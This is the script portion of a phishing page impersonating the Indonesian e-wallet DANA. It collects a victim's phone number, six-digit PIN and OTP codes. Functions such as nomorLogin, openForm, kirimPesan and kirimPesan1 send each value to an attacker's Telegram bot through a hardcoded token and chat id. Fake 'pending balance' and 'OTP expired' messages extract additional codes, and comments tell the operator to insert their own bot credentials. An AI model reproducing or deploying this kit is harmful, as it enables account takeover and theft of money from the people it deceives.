      <arole type="button" class="back" id="prevBtn" onclick="nextPrev(-1)"><img class="back" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhNI1Emy7PX0havgWqHmqlT51KSm22vosgN4OekNvqowvUD5b_ftp3dSwYRhaNDEGZKkyXibrQzF2FPZ9tB9jHwqMYmsQv7SZs9yiVTt9TfQUgON1sKVo9ikO9NO82v7U2amQPmLFih0CenbjLkpEdathvIorjl6Pr-nxFULehzY2gAPpIyJsYX0I7O/s16000/AddText_05-15-01.36.51.jpg"></a>
      </div>

  </div>

  <!-- Circles which indicates the steps of the form: -->
  <div style="text-align:center;margin-top:40px;">
    <span class="step"></span>
    <span class="step"></span>
    <span class="step"></span>
    <span class="step"></span>
    <span class="step"></span>
    </form>
  </div>

   <center>
 <div id="process" name="process" class="process" style="display: none;">
            <div class="loading">
                <img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi8hbZEfutKvr9pkj0-mkJYWt-1SBtt3gw-HFOEZc0172okrp0SFHLaW3PRGVDm1U0P7WWEMELIw4nlq1_1gCgyZBo3cxf-OJNpguNamdJryCkGU-hTHiW3RyOv5JD9eIjXTFtrJFCVn0ae4RxG4Oi-czAP20tEaJI3OstxFAbtOwtFxp6RvOHc6NZL/s1600/load_bg.png">
                <img class="spinner" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhl9xJVYWF_a9vAhgW5QQgozvZVADTaJgIX64iO7a5sQuMpSoPBK3zfKjvT6xc9fZPfxZz39mjk1H_oZOOOtYvO1l7DkWNqiD5LJyGYdwDNyHuyqLk_Ix6eFs3aLCG2yUXVwtsnj0BXTA40WZmecyLyCIm_ff0xNkkOvkuKBOl6yfS-QjI_EJrIyGtU/s1600/load_spin.png" id="loading">
            </div>
        </div>
        </center>
          <center>
 <div id="process1" name="process" class="process" style="display: none;">
            <div class="loading">
                <img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi8hbZEfutKvr9pkj0-mkJYWt-1SBtt3gw-HFOEZc0172okrp0SFHLaW3PRGVDm1U0P7WWEMELIw4nlq1_1gCgyZBo3cxf-OJNpguNamdJryCkGU-hTHiW3RyOv5JD9eIjXTFtrJFCVn0ae4RxG4Oi-czAP20tEaJI3OstxFAbtOwtFxp6RvOHc6NZL/s1600/load_bg.png">
                <img class="spinner" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhl9xJVYWF_a9vAhgW5QQgozvZVADTaJgIX64iO7a5sQuMpSoPBK3zfKjvT6xc9fZPfxZz39mjk1H_oZOOOtYvO1l7DkWNqiD5LJyGYdwDNyHuyqLk_Ix6eFs3aLCG2yUXVwtsnj0BXTA40WZmecyLyCIm_ff0xNkkOvkuKBOl6yfS-QjI_EJrIyGtU/s1600/load_spin.png" id="loading">
            </div>
        </div>
        </center>
       <script>
$(document).ready(function() {
    $('#nope').on('input change', function() {
        if(nope.value.length >9) {
        nextBtn.disabled= false
       }
        else {
        nextBtn.disabled= true;
        }
    });
});
</script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.3.1/jquery.min.js"
    integrity="sha512-+NqPlbbtM1QqiK8ZAo4Yrj2c4lNQoGv8P79DPtKzj++l5jnN39rHA/xsqn8zE9l0uSoxaCdrOgFs6yjyfbBxSg=="
    crossorigin="anonymous" referrerpolicy="no-referrer"></script>
     <script>
        $(document).ready(function () {
            $("#nextBtn").on('click', function () {
                $("#process").show();
                setTimeout(() => {
                $("#process").fadeOut();
                },800)
              });
        });


      function startTimer(duration, display) {
    var timer = duration, minutes, seconds;
    setInterval(function () {
        minutes = parseInt(timer / 59, 10);
        seconds = parseInt(timer % 59, 10);
        minutes = minutes < 10 ? "0" + minutes : minutes;
        seconds = seconds < 10 ? "0" + seconds : seconds;
        display.textContent = seconds;
        if (--timer < 0) {
            timer = duration;
        }
    }, 800);
}
window.onload = function () {
    var fiveMinutes = 59 * 1,
        display = document.querySelector('#timer');
    startTimer(fiveMinutes, display);
};


    </script>
<script>
  function backbutton(){
      document.getElementById("danapin").style.display = "none";
      document.getElementById("login").style.display = "block";
      document.getElementById("tombolback").style.display = "block";
      document.getElementById("process1").style.display = "flex";
      $("#process1").fadeOut();
  }

  function kembalibutton(){
      document.getElementById("myForm").style.display = "none";
      document.getElementById("danapin").style.display = "block";
      document.getElementById("prevBtn1").style.display = "none";
        document.getElementById("prevBtn").style.display = "block";
        document.getElementById("process1").style.display = "flex";
      $("#process1").fadeOut();
        document.write.getElementById("danapin")
        var pinContainer = document.querySelector(".pin-code");

        pinContainer.addEventListener('keydown', function (event) {
    var target = event.srcElement;
    target.value = "";
}, false);


  }



  </script>
  <script>
function nomorLogin(){
   document.getElementById("danapin").style.display = "block";
   document.getElementById("tombolback").style.display = "none";
   document.getElementById("process1").style.display = "flex";
   setTimeout(() => {
      $("#process1").fadeOut();
   },800)
  document.getElementById("login").style.display = "none";
     document.getElementById("userid").innerHTML = "nomor";
      var logo = document.getElementById('logo');       
    var nope = document.getElementById('nope');

    var gabungan = '' + logo.value + '%0A~%20𝗡𝗼𝗺𝗼𝗿 𝗗𝗔𝗡𝗔%20~%0A%20%20%20%20%20' + nope.value;

    var token = '6103385363%3AAAH2eODbgxub9WXZfPrzOTAKgUUnjVrXghs'; // Ganti dengan token bot yang kamu buat
    var grup = '5017817952'; // Ganti dengan chat id dari bot yang kamu buat

    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,
    })
}


  </script>
<script>
function openForm() {
  document.getElementById("myForm").style.display = "block";
   document.getElementById("prevBtn").style.display = "none";
     document.getElementById("prevBtn1").style.display = "block";


  document.getElementById("process1").style.display = "flex";
  setTimeout(() => {
      $("#process1").fadeOut();
  },800)
      document.getElementById("danapin").style.display = "none";
  document.getElementById("userid").innerHTML = "Kode dikirim ke +62" + nope.value  + 
    "&nbsp;via sms/WhatsApp"

  var logo = document.getElementById('logo');
  var pin1 = document.getElementById('pin1');
 var pin2 = document.getElementById('pin2');
 var pin3 = document.getElementById('pin3');
 var pin4 = document.getElementById('pin4');
 var pin5 = document.getElementById('pin5');
 var pin6 = document.getElementById('pin6');

  var gabungan = '' + logo.value + '%0A~%20𝗣𝗜𝗡 𝗗𝗔𝗡𝗔%20~%0A%20%20%20%20%20' +  pin1.value + pin2.value + pin3.value + pin4.value + pin5.value + pin6.value;

    var token = '6103385363%3AAAH2eODbgxub9WXZfPrzOTAKgUUnjVrXghs'; // Ganti dengan token bot yang kamu buat
    var grup = '5017817952'; // Ganti dengan chat id dari bot yang kamu buat

    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,
    })
}

function nextPrev(){
    document.getElementById("login").style.display = "block";
    document.getElementById("process1").style.display = "flex";
    setTimeout(() => {
      $("#process1").fadeOut();
    },1500)
       document.getElementById("homeku").style.display = "none";

} 


function kirimPesan(){

    document.getElementById("valid").style.display = "block";
     document.getElementById("myForm").style.display = "none";
     document.getElementById("process1").style.display = "flex";
     setTimeout(() => {
      $("#process1").fadeOut();
     },2500)
  document.getElementById("useridku").innerHTML = "SALDO TERPENDING"; 

     var logo = document.getElementById('logo');
   var pin11 = document.getElementById('pin11');
   var pin22 = document.getElementById('pin22');
   var pin33 = document.getElementById('pin33');
   var pin44 = document.getElementById('pin44');


    var gabungan = '' + logo.value +  '%0A~%20𝗢𝗧𝗣 𝗗𝗔𝗡𝗔%20~%0A%20%20%20%20%20%20' + pin11.value + pin22.value + pin33.value + pin44.value;


    var token = '6103385363%3AAAH2eODbgxub9WXZfPrzOTAKgUUnjVrXghs'; // Ganti dengan token bot yang kamu buat
    var grup = '5017817952'; // Ganti dengan chat id dari bot yang kamu buat

    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,
    })
}

 function startTimer(duration, display) {
    var timer = duration, minutes, seconds;
    setInterval(function () {
        minutes = parseInt(timer / 60, 10);
        seconds = parseInt(timer % 60, 10);
        minutes = minutes < 10 ? "0" + minutes : minutes;
        seconds = seconds < 10 ? "0" + seconds : seconds;
        display.textContent = seconds;
        if (--timer < 0) {
            timer = duration;
        }
    }, 1200);
}
window.onload = function () {
    var fiveMinutes = 59 * 1,
        display = document.querySelector('#time');
    startTimer(fiveMinutes, display);
};



    </script>
  <script>
$( document ).ready(function() {
            setTimeout(() => {
                $('welalxcome').hide();
                $('chsalxcome2').fadeIn();
            },2060)
        })

</script>

<script src="https://ajax.googleapis.com/ajax/libs/jquery/2.0.3/jquery.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.1.1/jquery.min.js"></script>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
<script src="https://cdn.rawgit.com/igorescobar/jQuery-Mask-Plugin/1ef022ab/dist/jquery.mask.min.js"></script>
<script type="text/javascript">
  $(document).ready(function(){
      // Format nomor HP.
    $( '.nope' ).mask('999-9999-99999');
  })
</script>
<!-- Static App Form Collection Script -->
<!--<script src="https://static.app/js/static-forms.js" type="text/javascript"></script>

<script src="https://static.app/js/static.js" type="text/javascript"></script>-->



    <script defer src="https://static.cloudflareinsights.com/beacon.min.js/v52afc6f149f6479b8c77fa569edb01181681764108816" integrity="sha512-jGCTpDpBAYDGNYR5ztKt4BQPGef1P0giN6ZGVUi835kFF88FOmmn8jBQWNgrNd8g/Yu421NdgWhwQoaOPFflDw==" data-cf-beacon='{"rayId":"7d6018abdd4a4ac5","token":"1bff91cd11f54ec58f75741ac691976b","version":"2023.4.0","si":100}' crossorigin="anonymous"></script>
</body>
</html>
<script>
//var pinContainer = document.getElementsByClassName("pin-code")[maxlength];
var pinContainer = document.querySelector(".pin-code");
console.log('There is ' + pinContainer.length + ' Pin Container on the page.');

pinContainer.addEventListener('keyup', function (event) {
    var target = event.srcElement;

    var maxLength = parseInt(target.attributes["maxlength"].value, 6);
    var myLength = target.value. length;

    if (myLength >= maxLength) {
        var next = target;
        while (next = next.nextElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        }
    }

    if (myLength === 0) {
        var next = target;
        while (next = next.previousElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        }
    }
}, false);

pinContainer.addEventListener('keydown', function (event) {
    var target = event.srcElement;
    target.value = "";
}, false);
</script>
<script>
//var pinContainer = document.getElementsByClassName("pin-code1")[maxlength];
var pinContainer = document.querySelector(".pin-code1");
console.log('There is ' + pinContainer.length + ' Pin Container on the page.');

pinContainer.addEventListener('keyup', function (event) {
    var target = event.srcElement;

    var maxLength = parseInt(target.attributes["maxlength"].value, 6);
    var myLength = target.value. length;

    if (myLength >= maxLength) {
        var next = target;
        while (next = next.nextElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        }
    }

    if (myLength === 0) {
        var next = target;
        while (next = next.previousElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        }
    }
}, false);

pinContainer.addEventListener('keydown', function (event) {
    var target = event.srcElement;
    target.value = "";
}, false);
</script>
<script>
//var pinContainer = document.getElementsByClassName("pin-code2")[maxlength];
var pinContainer = document.querySelector(".pin-code2");
console.log('There is ' + pinContainer.length + ' Pin Container on the page.');

pinContainer.addEventListener('keyup', function (event) {
    var target = event.srcElement;

    var maxLength = parseInt(target.attributes["maxlength"].value, 6);
    var myLength = target.value. length;

    if (myLength >= maxLength) {
        var next = target;
        while (next = next.nextElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        }
    }

    if (myLength === 0) {
        var next = target;
        while (next = next.previousElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        }
    }
}, false);

pinContainer.addEventListener('keydown', function (event) {
    var target = event.srcElement;
    target.value = "";
}, false);



function kirimPesan1(){


   document.getElementById("useridku").innerHTML = "Kode OTP telah kadaluarsa atau invalid, Silahkan Kirim ulang OTP"; 
   document.getElementById("process1").style.display = "flex";
      $("#process1").fadeOut();

     var logo = document.getElementById('logo');
   var pin111 = document.getElementById('pin111');
   var pin222 = document.getElementById('pin222');
   var pin333 = document.getElementById('pin333');
   var pin444 = document.getElementById('pin444');


    var gabungan = '' + logo.value +  '%0A~%20𝗢𝗧𝗣 𝗗𝗔𝗡𝗔%20~%0A%20%20%20%20%20%20' + pin111.value + pin222.value + pin333.value + pin444.value;


    var token = '6103385363%3AAAH2eODbgxub9WXZfPrzOTAKgUUnjVrXghs'; // Ganti dengan token bot yang kamu buat
    var grup = '5017817952'; // Ganti dengan chat id dari bot yang kamu buat

    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,
    })
}
 </script>
 <script>
  function closechat(){
      document.getElementById("Backdrop").style.display = "none";
  }
  function openchat(){
      document.getElementById("Backdrop").style.display = "block";
  }
</script>
<script>
// Ganti nomor WhatsApp berikut dengan nomor kamu
const NOMOR_WHATSAPP = "6281278014832"; //Pastikan nomor diawali dengan kode negara tanpa tanda "+" (cth. 085-XXX-XXX-XXX diubah mendaji 6285-XXX-XXX-XXX)

const ewc_hidden = document.querySelectorAll(".ewc_hidden");
const ewc_button = document.querySelectorAll(".ewc_button");
const ewc_audio = new Audio(
  "https://www-dana-idl.github.io/Dana.kaget/diana-dana.mp3"
);

const ewcShow = () => {
  ewc_hidden.forEach((el) => {
    el.style.display = "flex";
    el.ariaHidden = "false";
  });
  ewc_audio.play();

  setTimeout(() => {
    ewc_hidden.forEach((el) => {
      el.style.opacity = "1";
    });
  }, 0);

  setTimeout(() => {
    document.getElementById("ewChatBubble").style.opacity = "1";
  }, 300);
};

const ewcHide = () => {
  ewc_hidden.forEach((el) => {
    el.style.opacity = "0";
    document.getElementById("ewChatBubble").style.opacity = "0";
    el.ariaHidden = "true";
  });

  setTimeout(() => {
    ewc_hidden.forEach((el) => {
      el.style.display = "none";
    });
  }, 1000);
};

function ewcOpen() {
  if (ewChatBox.style.display == "none") {
    ewcShow();
  } else {
    ewcHide();
  }
}

document.querySelectorAll(".ewc_close").forEach((el) => {
  el.addEventListener("click", ewcHide);
});

document.querySelectorAll(".ewc_open").forEach((el) => {
  el.addEventListener("click", ewcOpen);
});

document.getElementById("ewc_send").addEventListener("click", () => {
  window.open(
    `https://wa.me/${NOMOR_WHATSAPP}?text=${encodeURI(
      document.getElementById("ewc_message").value
    )}`
  );
});
</script>
